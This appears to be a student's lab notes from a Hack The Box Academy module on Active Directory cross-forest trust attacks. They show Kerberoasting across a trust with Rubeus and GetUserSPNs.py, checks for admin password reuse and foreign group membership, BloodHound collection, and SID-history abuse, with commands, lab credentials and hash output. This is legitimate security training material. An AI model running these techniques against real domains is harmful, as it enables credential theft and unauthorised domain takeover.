


# Cross-Forest Trust Attacks

## Cross-Forest Trust Attacks - from Windwos

### Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrator user in another domain that has Domain/Enterprise Admin privileges in both domains.

#### Enumerating Accounts for Associated SPNs using Get-DomainUser

You can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

#### Enumerating the mssqlsvc Account

You see that there is on account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if you can Kerberoast it and crack the hash offline, you'd have full admin rights to the target domain.

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

Perform a Kerberoasting attack across the trust using Rubeus. You run the tool and include the ```/domain:``` flag and specify the target.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

You could run the hash through Hashcat. If it cracks, you've now quickly expanded your access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

### Admin Password Re-Use & Group Membership

From time to time, you'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If you can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account, and Domain B has a highly privileged account with the same name, then it is worth checking for passowrd reuse across the two forests.

You may also see users or admins from Domain A as members of a group in Domain B. Only Domain Local Groups allow security principals from outside its forest. You may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If you can take over this admin user in Domain A, you would gain full administrative access to Domain B based on group membership.

#### Using Get-DomainForeignGroupMember

You can use the PowerView function Get-DomainForeignGroupMember to enumerate groups with users that do not belong to the domain, also known as foreign group membership. Try this against the FREIGHTLOGISTICS.LOCAL domain with which you have an external bidirectional forest trust.

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

#### Accessing DC03 Using Enter-PSSession

The above command output shows that the built-in Administrators group in FREIGHTLOGISTICS.LOCAL has the built-in Administrator account for the INLANEFREIGHT.LOCAL domain as a member. You can verify this access using the Enter-PSSession cmdlet to connect over WinRM.

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

From the command output above, you can see that you successfully authenticated to the Domain Controller in the FREIGHTLOGISTICS.LOCAL domain using the Administrator account from the INLANEFREIGHT.LOCAL domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust is present during an assessment and the second forest is in-scope.

### SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID histroy attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest. In the below diagram, you can see an example of the jjones user being migrated from the INLANEFREIGHT.LOCAL domain to the CORP.LOCAL domain in a different forest. If SID Filtering is not enabled when this migration is made and the user has administrative privileges in the INLANEFREIGHT.LOCAL domain, then they will retain their administrative rights/access in INLANEFREIGHT.LOCAL while being a member of the new domain, CORP.LOCAL in the second forest.



## Cross-Forest Trust Attacks - from Linux

### Cross-Forest Kerberoasting

#### Using GetUserSPNs.py

```bash
d41y@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```

#### Using the -request Flag

Rerunning the command with the ```-request``` flag added gives you the TGS ticket. You could also add ```-outputfile <OUTPUT_FILE>``` to output directly into a file that you could then turn around and run Hashcat against.

```bash
d41y@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

You could then attempt to crack this offline using Hashcat mode 131000. If successful, you'd be able to authenticate into the FREIGHTLOGISTICS.LOCAL domain as a Domain Admin. If you are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in your current domain and if it suffers from password re-use. This could be a quick win for you if you have not yet been able to escalate in your current domain. Even if you already have control over the current domain, it would be wort adding a finding to your report if you do find password re-use across similarly named accounts in different domains.

### Hunting Foreign Group Membership with BloodHound-python

You may, from time to time, see users or admins from one domain as members of a group in another domain. Since only Domain Local Groups allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in Administrator group in Domain B when dealing with a bidirectional forest trust relationship. If you are testing from a Linux host, you can gather this information by using the Python implementation of BloodHound. You can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.

#### Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

On some assessments, your client may provision a VM for you that gets an IP from DHCP and is configured to use the internal domain's DNS. You will be on an attack host without DNS configured in other instances. In this case, you would need to edit your resolv.conf file to run this tool since it requires a DNS hostname for the target DC instead of an IP address. You can edit the file as follows using sudo rights. Here you have commented out the current nameserver entries and added the domain name and the IP address of ACADEMY-EA-DC01 as the nameserver.

```bash
d41y@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

#### Running bloodhound-python against INLANEFREIGHT.LOCAL

Once this is in place, you can run the tool against the target domain as follows:

```bash
d41y@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

#### Compressing the File with zip -r

You can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

```bash
d41y@htb[/htb]$ zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)
```

#### Repeating these Steps for FREIGHTLOGISTICS.LOCAL

```bash
d41y@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238

d41y@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

#### Viewing Dangerous Rights through BloodHound

After uploading the second set of data, you can click on "Users with Foreign Domain Group Membership" under the "Analysis" tab and select the source domain as INLANEFREIGHT.LOCAL. Here, you will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTIC.LOCAL domain.

